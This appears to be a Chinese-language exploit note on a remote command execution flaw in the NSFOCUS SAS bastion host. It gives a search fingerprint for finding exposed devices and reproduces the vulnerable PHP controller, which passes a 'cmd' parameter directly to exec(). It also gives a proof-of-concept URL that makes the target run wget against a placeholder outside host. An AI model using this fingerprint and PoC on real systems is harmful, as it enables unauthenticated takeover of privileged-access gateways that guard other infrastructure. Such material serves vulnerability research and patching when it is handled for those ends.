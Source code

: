 # 绿盟 SAS堡垒机 Exec 远程命令执行漏洞

## 漏洞描述

绿盟 SAS堡垒机 Exec 远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>绿盟 SAS堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="'/needUsbkey.php?username='"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1687843929584-e793a136-93ec-4b19-8ee9-5738c91681e8-20230810133806265.png)

漏洞存在于文件 ExecController.php 文件中

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691645538909-d812cd3c-58f8-4325-b91e-456dce6b9a3c.png)

```php
<?php
  require_once 'Nsc/Websvc/Response.php';
class ExecController extends Cavy_Controller_Action {

  var $models = 'no';

  public function index() {
    $command = $this->_params['cmd'];
    $ret = 0;
    $output = array();
    exec($command,$output,$ret);
    $result = new StdClass;
    if ($ret != 0) {
      $result->code = Nsc_Websvc_Response::EXEC_ERROR;
      $result->text = "exec error";
    }
    else {
      $result->code = Nsc_Websvc_Response::SUCCESS;
      //			$result->text = implode("\n",$output);
      $result->text = "WEBSVC OK";
    }
    $this->_render(array('result'=>$result),'/websvc/result');
  }
}
?>
```

验证POC

```php
/webconf/Exec/index?cmd=wget%20xxx.xxx.xxx
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691645555190-0e9d0dbb-97bc-4569-9357-e0bf65c3138d.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691645814709-0b0ac94f-1899-4cfb-9751-7037cfecd3ef.png)